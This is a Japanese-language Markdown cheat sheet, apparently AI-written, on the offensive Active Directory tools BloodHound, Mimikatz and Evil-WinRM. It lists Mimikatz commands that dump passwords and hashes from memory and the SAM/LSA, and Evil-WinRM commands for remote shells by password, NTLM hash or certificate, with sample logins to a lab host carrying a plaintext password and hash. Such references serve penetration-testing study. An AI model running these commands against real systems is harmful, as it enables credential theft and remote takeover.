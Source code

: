 以下に、`BloodHound`、`Mimikatz`、`Evil-WinRM`に関する内容をMarkdown形式で目次付きでまとめました。

```markdown
# 目次
1. [BloodHound](#bloodhound)
2. [Mimikatz](#mimikatz)
3. [Evil-WinRM](#evil-winrm)

---

## BloodHound

BloodHound ([GitHubリンク](https://github.com/BloodHoundAD/BloodHound)) は、グラフ理論に基づきActive Directory環境の意図しない関係性を明らかにするためのツールです。これにより、低特権ユーザーをDomain Adminsに昇格させるためのパスを発見することができます。詳細については、[Qiita記事](https://qiita.com/v_avenger/items/56ef4ae521af6579c058)をご覧ください。

### 操作手順

1. **ターゲットAD上でSharpHound.exeを実行する**
   - SharpHoundは、Active Directoryの情報を収集し、関係性を解析するツールです。
   
2. **作成された日付入りのzipファイルをKali上に転送する**
   - ファイルを転送するには、`scp`や`ftp`などのツールを使用します。

3. **neo4jの起動**
   - BloodHoundはNeo4jデータベースを使用してグラフデータを管理します。

4. **BloodHoundの起動**
   - Neo4jが起動したら、BloodHoundを実行し、収集したデータをアップロードします。

---

## Mimikatz

Mimikatzは、Windowsシステムのパスワードやハッシュをダンプするためのツールです。

### 基本コマンド

- **パスワードとハッシュのダンプ**

  ```bash
  privilege::debug
  sekurlsa::logonpasswords
  ```

- **SAMとLSAのダンプ**

  ```bash
  lsadump::sam
  lsadump::lsa /patch
  ```

- **ワンライナーでの実行**

  ```bash
  .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
  ```

  ![Mimikatz Example](https://github.com/user-attachments/assets/80751d7c-e8fe-4d86-a690-98426942fdff)

---

## Evil-WinRM

WinRM（Windows Remote Management）は、MicrosoftのWS-Management Protocolの実装です。リモートシェルプログラムとしてEvil-WinRMを使用することで、WinRMサービスが有効なリモートWindowsサーバーに接続できます。

### WinRMサービスの発見

- **ポート5985（平文プロトコル）および5986（暗号化されたプロトコル）のスキャン**

  ```bash
  nmap -p5985,5986 <IP>
  ```

### ログイン方法

- **パスワードでログイン**

  ```bash
  evil-winrm -i <IP> -u user -p pass
  evil-winrm -i <IP> -u user -p pass -S
  ```

- **ハッシュでログイン**

  ```bash
  evil-winrm -i <IP> -u user -H ntlmhash
  ```

- **キーでログイン**

  ```bash
  evil-winrm -i <IP> -c certificate.pem -k priv-key.pem -S
  ```

### ログの表示

- **ログ表示**

  ```bash
  evil-winrm -i <IP> -u user -p pass -l
  ```

### ファイルのアップロードとダウンロード

- **ファイルのアップロード**

  ```bash
  upload <file>
  ```

- **ファイルのダウンロード**

  ```bash
  download <file> <filepath-kali>
  ```

- **Kaliから直接ファイルを読み込む**

  ```bash
  evil-winrm -i <IP> -u user -p pass -s /opt/privsc/powershell
  ```

### Evil-WinRMコマンド

- **コマンドメニューの表示**

  ```bash
  menu
  ```

- **バイナリの実行**

  ```bash
  evil-winrm -i <IP> -u user -p pass -e /opt/privsc
  Invoke-Binary /opt/privsc/winPEASx64.exe
  ```

  ![Evil-WinRM Example](https://github.com/user-attachments/assets/3f9ef784-7508-431b-9423-8619fc59e637)

- **パスワードログイン例**

  ```bash
  evil-winrm -i 10.10.11.14 -u maya -p 'm4y4ngs4ri'
  ```

  ![Password Login](https://github.com/user-attachments/assets/7020f363-a6ca-46b9-9f53-37b00809c45a)

- **ハッシュ値によるログイン例**

  ```bash
  evil-winrm -i 10.10.11.14 -u localadmin -H 9aa582783780d1546d62f2d102daefae
  ```

  ![Hash Login](https://github.com/user-attachments/assets/422c7f6c-7d6a-47ae-a374-947c13d39b0b)

  ![Example](https://github.com/user-attachments/assets/764171ae-cf49-4710-95a5-508452d37fe3)
```

このMarkdown形式のドキュメントで、各ツールの使い方とコマンド例が体系的に整理されています。必要に応じて、具体的なコマンドや操作方法を追加するとさらに役立つでしょう。